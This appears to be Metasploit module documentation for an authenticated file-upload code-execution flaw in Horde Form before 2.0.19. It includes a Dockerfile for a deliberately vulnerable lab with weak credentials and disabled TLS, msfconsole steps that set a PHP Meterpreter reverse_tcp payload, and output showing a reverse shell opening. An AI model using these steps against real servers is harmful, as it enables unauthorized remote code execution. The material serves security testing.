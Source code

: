 Horde Groupware Webmail is a popular open-source groupware platform written in PHP. A vulnerability allows an authenticated, unprivileged user to create a malicious PHP file under the web root and gain arbitrary code execution on the server. 

## Vulnerable Application

The Horde subcomponent Horde Form < 2.0.19 is affected. This module was specifically tested against Horde Groupware Webmail Edition 5.2.22 and 5.2.17 with Horde Form 2.0.18 installed with PEAR on Debian.

### Docker install on Ubuntu 18.04

Please folow these steps to setup a vulnerable version of Horde in Docker on a Ubuntu.

1. Set up a [Ubuntu](http://www.ubuntu.com/) 18.04 box.
2. Open a terminal, and enter: ```sudo apt-get install docker.io```. Make sure Docker is properly configured and your current user has permession to use it.
3. Enter: ```mkdir horde_form_file_upload``` to create a folder.
4. Enter: ```cd horde_form_file_upload``` to enter that folder.
5. Create a ```Dockerfile``` in it with the following content.

```
FROM debian

RUN apt-get update
RUN apt-get install --yes --no-install-recommends \
    apache2 \
    ca-certificates \
    dovecot-imapd \
    libapache2-mod-php \
    mysql-server \
    php-mysqli \
    php-pear \
    rsyslog

RUN pear upgrade PEAR
RUN pear channel-discover pear.horde.org
RUN pear install horde/horde_role
RUN rm -r /var/www/html/ && mkdir /var/www/html/
RUN echo /var/www/html/ | pear run-scripts horde/Horde_Role
RUN pear install -a -B horde/webmail-5.2.22
# Uninstall end reinstall the vulnerable version
RUN pear uninstall -n horde/Horde_Form
RUN pear install -a -B horde/Horde_Form-2.0.18 
RUN sed -i "/'secure' => 'tls',/d" /var/www/html/imp/config/backends.php
RUN chown -R www-data:www-data /var/www/html/

RUN useradd -m -G mail user && echo 'user:user' | chpasswd

RUN echo 'disable_plaintext_auth = no' | tee /etc/dovecot/conf.d/99-auth.conf

ENTRYPOINT \
           /etc/init.d/mysql start && \
           echo 'CREATE DATABASE IF NOT EXISTS horde;' | mysql && \
           echo 'CREATE USER IF NOT EXISTS horde;' | mysql && \
           echo 'GRANT ALL ON horde.* TO horde IDENTIFIED BY "horde";' | mysql && \
           { echo mysqli;    sleep 0.3; \
             echo horde;     sleep 0.3; \
             echo horde;     sleep 0.3; \
             echo tcp;       sleep 0.3; \
             echo localhost; sleep 0.3; \
             echo;           sleep 0.3; \
             echo horde;     sleep 0.3; \
             echo;           sleep 0.3; \
             echo false;     sleep 0.3; \
             echo;           sleep 0.3; \
             echo 1;         sleep 0.3; } | webmail-install && \
           dovecot && \
           /etc/init.d/apache2 start && \
           tail -F /var/log/apache2/access.log /var/log/syslog
```

6. Enter: ```docker build . -t horde-img``` to build the Docker image.
7. Enter: ```docker run -p8888:80 --name horde-inst horde-img``` to run the Docker instance with the name ```horde-inst```.
8. Get the Docker host ip for reverse connection. In Linux, enter: ```ip -4 addr show docker0 | grep -Po 'inet \K[\d.]+'```.

## Verification Steps

After setting up Horde, you can use your exploit module:

1. Start msfconsole
2. Do: ```use exploit/multi/http/horde_form_file_upload```
3. Do: ```set RHOSTS 127.0.0.1```
4. Do: ```set RPORT 8888```
5. Do: ```set payload php/meterpreter/reverse_tcp```
6. Do: ```set LHOST [HOST IP]```
7. Do: ```set VHOST horde.lab```
8. Do: ```set USERNAME user ```
9. Do: ```set PASSWORD user```
10. Do: ```exploit```
11. And you should get a session

## Scenarios

### Horde Groupware Webmail Edition 5.2.22 with Horde Form 2.0.18 on a Debian stretch on Docker running on an Ubuntu 16.04

```
msf exploit(multi/http/horde_form_file_upload) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Uploading payload to ../var/www/html/static/mxkyfrlztogn.php
[*] Sending stage (38247 bytes) to 172.17.0.3
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.17.0.3:47720) at 2019-03-29 15:27:53 +0000

meterpreter > 
```
